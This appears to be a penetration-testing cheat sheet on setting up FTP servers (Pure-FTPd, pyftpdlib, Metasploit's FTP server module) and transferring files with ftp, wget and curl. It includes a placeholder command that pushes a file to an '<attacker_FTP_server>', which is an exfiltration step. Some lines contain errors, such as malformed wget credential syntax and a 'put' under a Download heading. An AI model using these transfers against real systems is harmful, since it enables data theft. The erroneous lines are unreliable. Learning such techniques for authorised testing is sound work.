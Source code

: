 # FTP

## 01 - Unix Shell

### 1.1 - Setup

#### 1.1.1 - Pure-FTPd

`$ sudo apt install pure-ftpd`

`$ cat setup-pure-ftpd.sh`

---

```bash
#!/bin/sh
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd <username> -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

```
$ chmod +x setup-pure-ftpd.sh

$ sudo ./setup-pure-ftpd.sh
```

#### 1.1.2 - PyFTPdlib

`$ sudo apt install python-pyftpdlib`

`$ python3 -m pyftpdlib -p <PORT>`

### 1.2 - Usage

#### 1.2.1 - Download

```
$ ftp <attacker_FTP_server>

ftp> put file.txt

$ wget -m ftp://<username>@<password>@<IP>

$ wget -m --no-passive ftp://<username>@<password>@<IP>

$ curl -u <username>:<password> ftp://<IP>/file.txt
```

#### 1.2.2 - Upload

`$ curl -u <username>:<password> -T /path/to/file.txt ftp://<IP>`

## 02 - Metasploit

```
msf > use auxiliary/server/ftp

msf auxiliary(server/ftp) > options

Module options (auxiliary/server/ftp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FTPPASS                    no        Configure a specific password that should be allowed access
   FTPROOT   /tmp/ftproot     yes       The FTP root directory to serve files from
   FTPUSER                    no        Configure a specific username that should be allowed access
   PASVPORT  0                no        The local PASV data port to listen on (0 is random)
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   21               yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Serve files via FTP


msf auxiliary(server/ftp) > set ftproot /path/to/host/files

msf auxiliary(server/ftp) > set ftpuser <username>

msf auxiliary(server/ftp) > set ftppass <password>

msf auxiliary(server/ftp) > run
```

## References

- [Hacktricks Pentesting FTP Bounce Attack](https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-attack)

- [Hacktricks Pentesting FTP Download 2OFTP File]https://book.hacktricks.xyz/pentesting/pentesting-ftp/ftp-bounce-download-2oftp-file

- [How to Use FTP Under Linux to Transfer Files](https://www.thegeekdiary.com/how-to-use-ftp-under-linux-to-transfer-files/)
